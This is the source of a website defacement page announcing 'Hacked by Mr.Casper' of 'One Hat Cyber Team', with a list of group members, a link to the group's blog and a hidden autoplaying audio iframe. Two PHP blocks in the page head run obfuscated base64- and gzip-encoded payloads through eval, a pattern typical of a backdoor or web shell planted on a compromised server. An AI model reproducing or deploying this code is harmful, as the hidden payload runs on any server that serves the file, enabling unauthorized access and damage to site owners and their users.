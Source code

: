 # <html>
<head>
<title>One Hat Cyber Team</title>
<meta content='Hacked By Mr.Casper' name='description'/>
<meta content='Hacked By Mr.Casper' name='keywords'/>
<meta content='Hacked By Mr.Casper' name='Abstract'/>
<meta name="title" content="Hacked by Mr.Casper">
<meta name="description" content="$ One Hat Cyber Team $">
<meta name="keywords" content="Hacked by Hantu Kecil One Hat Cyber Team, hacked by One Hat Cyber Team ">
<meta name="googlebot" content="index,follow" />
<meta name="robots" content="all" />
<meta name="robots schedule" content="auto" />
<meta name="distribution" content="global" />
</head>
<?php eval(gzinflate(base64_decode('jY9La8JAEMfvgXyHYRE2lvgolFISBG1NwYN9xNiLyLJNVnfbbBJ2J6Df3k2lYm89Dczv/5iZqkoxKzCgdYtNi+yz3e2EUdWehjDuxzC9CAplm5IfmTCmNvaMfc8hhkoLViqtMOgsF4cWujbHM3F6en+3pI5LwQthAvpUVygqHGTHRkS+h+KAI4m6jCGX3LiEyTp7Hjx0lh62Xy2vNFclTIB+i7xFza2St+PpvtsO81pTpzuwhqP0vQkQidhEoxGBIfTYKkk/knRDz5O9zJYJ3f4hafK+TlYZW6cLunWP9RphecV4KQy6TrJTh994iBq4WbzBrCiMsBYi2ICrcZ6rtOVrlrDZfJ7+9BDYkhi6S4OrX0LfIyl/VApzSUK4rgyB/Cu0H58A'))); ?>
<?php eval(gzinflate(base64_decode('c0jOL6jUcFCJd/P0cQ2OVq9Qj41WL8ktiM9LzE1Vj9VBk4GIaloDAA=='))); ?>
<body bgcolor='black'>
<br><br>
<br>
<center>
<br><p align='center'>&nbsp;</p>
<link href='http://fonts.googleapis.com/css?family=Josefin Sans' rel='stylesheet' type='text/css'>
<font face='Josefin Sans' size='6' color='white'> Hacked by Mr.Casper </font>
<br><br>
<p align="center">
<img src="https://4.top4top.net/p_1304dnmtt0.jpg" border="0" width="400" height="250" alt="Consept_IXI" /></a><br>
<br><font face="Iceland" size="5" color="white">Any Questions ?  </font><a style="color:red;" href="https://onehatcyberteam.blogspot.com">click here</a>
<table border=1 width="100%" bordercolor="gray">
<td><td align="center" valign="middle"><td width="8%"><font color="white"><center><font color="red">Memberz</center></font></font></td></td></td>
<td><td align="center" valign="middle"><td width="92%"><font color="white"><marquee> Mr.C1TY3920 | Mr.X | Teajus Gans | Nigh Name | -Trojan- | Ilham Hidayat | Mrs.Queen | Malik Bot | Mr.1249xYL | Gezza Eka | ./L1ght_R00t | Walkers404 | Mr. Nekopoi | Kelinci Jenius | DAMNIKA | D4N13L</marquee></font></td></td></td>
</table>
<span style="visibility: hidden"><iframe widllth="0%" height="0" scrolling="no" frameborder="no" loop="true" allow="autoplay" src="https://j.top4top.net/m_12150ennk0.m4a"></iframe></span>
</html>
